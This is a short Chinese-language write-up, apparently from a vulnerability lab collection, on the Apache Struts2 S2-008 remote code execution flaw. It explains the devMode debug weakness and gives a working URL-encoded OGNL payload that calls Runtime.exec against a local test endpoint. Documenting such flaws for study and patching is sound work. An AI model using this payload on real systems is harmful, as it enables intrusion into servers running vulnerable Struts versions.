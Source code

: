 # S2-008 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.1

漏洞详情: <http://struts.apache.org/docs/s2-008.html>

## 原理

参考 <http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html>

> S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

> 例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```